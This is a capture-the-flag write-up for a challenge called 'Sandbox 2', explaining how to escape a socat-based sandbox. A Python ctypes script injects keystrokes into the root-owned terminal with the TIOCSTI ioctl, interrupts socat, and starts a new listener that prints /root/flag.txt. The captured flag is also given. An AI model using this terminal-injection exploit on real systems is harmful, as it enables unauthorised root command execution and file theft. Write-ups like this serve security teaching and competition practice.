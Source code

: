# Sandbox 2

Author: `cobra`

I think I fixed it... just removed that silly ampersand.

## Solution

Same as before, but since socat is not running in the background we are directly accessing the tty for the execution of `start.sh`. 

Thus, we can send an interrupt signal to the process with `\x03`, then pass in more commands in the context of that execution. However, since interrupting socat also means we cannot connect to the socket anymore, we need to open a new listener on the socket.

We can simply use socat again, but this time instead of running the sandbox, we can execute any command as root, so we can simply cat the flag file.

```python
import ctypes

libc = ctypes.CDLL('libc.so.6')
open = libc.open
open.argtypes = [ctypes.c_char_p, ctypes.c_int]
open.restype = ctypes.c_int
fd = open(b'/dev/tty', 2)
print(fd)

ioctl = libc.ioctl
ioctl.argtypes = [ctypes.c_int, ctypes.c_int, ctypes.c_char_p]
ioctl.restype = ctypes.c_int
TIOCSTI = 0x5412
# \x03 sends interrupt, closing the socat process
# then we send another socat command so that 1337 will now run that
cmd = '\x03socat TCP-LISTEN:1337,reuseaddr,fork EXEC:\"cat /root/flag.txt\",stderr\n'
for c in cmd:
    try:
        r = ioctl(fd, TIOCSTI, ctypes.c_char_p(c.encode()))
        if r < 0:
            print('ioctl failed')
            break
    except:
        pass

libc.close(fd)
print('done')
```

The next time we reconnect, we get the flag:
```
python3 solve.py

Disconnected from socket. Try reconnecting? (y/n): y

gigem{n3x7_71m3_1ll_us3_4_p7y_0r_4rch}
```

flag:
`gigem{n3x7_71m3_1ll_us3_4_p7y_0r_4rch}`
